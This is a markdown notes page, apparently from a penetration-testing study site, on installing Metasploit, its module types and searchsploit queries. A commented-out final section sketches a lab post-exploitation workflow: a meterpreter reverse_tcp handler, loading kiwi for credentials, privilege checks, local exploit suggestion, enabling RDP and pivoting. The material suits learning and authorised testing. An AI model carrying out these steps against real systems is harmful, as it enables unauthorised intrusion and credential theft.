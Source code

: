 ```yaml
---
sort : 2 
--- 
```


# Metasploit Framework (MSF)

Metasploit is primarily designed as an exploitation toolkit. It contains a variety of different modules that have prepackaged exploits for a number of vulnerabilities.

> Installation

```bash
$ sudo apt update
$ sudo apt install metasploit-framework

# 1 upgraded, 0 newly installed, 0 to remove and 1183 not upgraded. ^^ 
```

> initialize the database! (PostgreSQL) !! 

```bash
$ msfdb init

$ msfconsole -q

# to check that we've connected to the database
msf6 > db_status

# to save the settings/active datastores in metasploit 
msf6 > save 
```

> MetaSploit Framework architecture 

<p align="center"> 
  <img src='./../assets/images/metasploit-guide-set-up.png'> 
</p>


| exploit | module holds all of the exploit code                                                                                                            |   |
|---------|-------------------------------------------------------------------------------------------------------------------------------------------------|---|
| payload | Used hand in hand with exploits, contains the various bits of `shellcode` we send to have executed following exploitation                         |   |
| aux     | commonly used in `scanning and verification` machines are exploitable, This is not the same as the actual exploitation of course                  |   |
| post    | One of the most common activities after exploitation is `looting and pivoting`. Which module provides these capabilities                          |   |
| encoder | Commonly utilized in `payload obfuscation`, module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection |   |
| nop     | used with `buffer overflow` and `ROP` attacks                                                                                                       |   |
| load    | a command to load different modules                                                                                                             |   |









<br><br>


# Searchsploit

```bash
$ searchsploit -u                         # updating !! 
# OR some of the exploit metadata are not included. To access them,
$ searchsploit [exploitName Version] -w   # Exploit-DB Online

$ searchsploit  -m  exploit-db-number.rb  # mirror/copy the exploit 


# Examples :

$ searchsploit afd windows local
$ searchsploit -t oracle windows
$ searchsploit -p 39446
$ searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
$ searchsploit -s Apache Struts 2.0.0
$ searchsploit linux reverse password
$ searchsploit -j 55555 | json_pp
```



























<!-- >ues multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
>show options



run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.
Once we've started this, we can check all of the jobs running on the system by running the command `jobs`




meterpreter > 
What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!  :::: migrate

What command can we run to find out more information regarding the current user running the process we are in? :: getuid

finding more information out about the system itself?:::: sysinfo

meterpreter > load kiwi

figure out the privileges of our current user::: getprivs

then transfer files to the victim machine ::: upload
or run a Metasploit module::: run 

figure out the networking information and interfaces on our victim?:: ipconfig / ifconfig  

> run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
> run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges 


Finally, let's try forcing RDP (remote Desktop protocol) to be available. This won't work since we aren't administrators, however, this is a fun command to know about: > run post/windows/manage/enable_rdp

> shell     # to finally spawn a system shell 


in the shell 
let's take a look at the autorouting options available to us in Metasploit

While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks -->